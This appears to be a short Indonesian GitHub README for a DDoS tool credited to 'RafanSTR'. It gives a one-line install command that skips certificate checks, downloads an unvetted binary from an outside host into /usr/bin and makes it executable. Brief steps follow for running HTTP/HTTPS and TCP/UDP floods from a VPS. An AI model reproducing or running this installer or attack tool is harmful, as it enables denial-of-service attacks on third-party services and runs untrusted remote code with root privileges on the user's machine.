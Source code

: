 **DDOS ATTACK SIMPEL BY RAFANSTR**

***LINK INSTALASI***
```
apt update && apt upgrade -y && apt install gnupg -y && wget --no-check-certificate -O /usr/bin/dds http://autsc.my.id/xws ; chmod +x /usr/bin/dds
```

![RafanSTR](https://github.com/Genjerr/DDOS-TOOLS/blob/main/gambar1.png)

**1. tempel link diatas di terminal vps kalian**

**2. jalankan dengan ketik dds di terminal**

**3. lalu install module yang diminta di terminal (lupa apa aja)**

**4. minimal kecepatan koneksi vps 500mbps untuk menjalankan http/https**

**5. untuk tcp/udp bisa costum sendiri mau kecepatan berapa mbps/gbps sesuai kemampuan vps kalian**
